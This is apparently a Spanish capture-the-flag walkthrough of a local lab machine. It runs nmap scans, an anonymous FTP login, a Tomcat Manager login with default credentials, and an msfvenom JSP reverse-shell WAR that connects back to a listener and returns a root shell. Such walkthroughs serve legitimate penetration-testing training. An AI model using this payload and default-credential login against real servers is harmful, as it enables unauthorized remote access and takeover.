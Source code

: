 # -Pn

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT     STATE SERVICE    REASON
21/tcp   open  ftp        syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
```

Como tenemos abierto los puertos 21 y 8080, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p21,8080 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p21,8080`: Escaneo de los puertos 21 (FTP) y 8080 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```bash
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
8080/tcp open  http    syn-ack ttl 64 Apache Tomcat 9.0.88
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.88
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```
Vemos que tenemos el usuario Anonymous en el ftp abierto, así que vamos a conectarnos.
```bash
ftp 172.17.0.2
```
```
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:tbrux): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||15473|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
```
Encontrammos un archivo **tomcat.txt**, lo descargamos a nuestra máquina y revisamos que información contiene.
```bash
get tomcat.txt
```
```
tp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||38522|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |***********************************************************************************************************************************************************************************************|    74        1.10 MiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (227.25 KiB/s)
ftp> exit
221 Goodbye.
❯ cat tomcat.txt
Hello tomcat, can you configure the tomcat server? I lost the password...
```
Es un mensaje al usuario **tomcat** así que ya solo faltaría encontrar el password. Vamos a ver el puerto 8080 que tenemos.

## Explotación.
Pinchamos en el botón **Manager APP**. Probamos una de las contraseñas quet tiene tomcat por defecto para el usuario **tomcat** y estamos dentro del panel.
```
tomcat:s3cr3t
```
En la página vemos la opciones y vamos hasta **WAR file to deploy** y desde ahí podemos subir un archivo malicioso con una reverse shell creada con msfvenom.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war
```
Una vez creado, nos aparece un listado de archivos y rutas. Nos ponemos en escucha por el puerto 443.
```bash
nc -lvnp 443
```
Hacemos click en el archivo **revshell** que hemos subido y establecemos una reverse shell con la máquina victima con privilegios de root.
```
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 59678
whoami
root
```
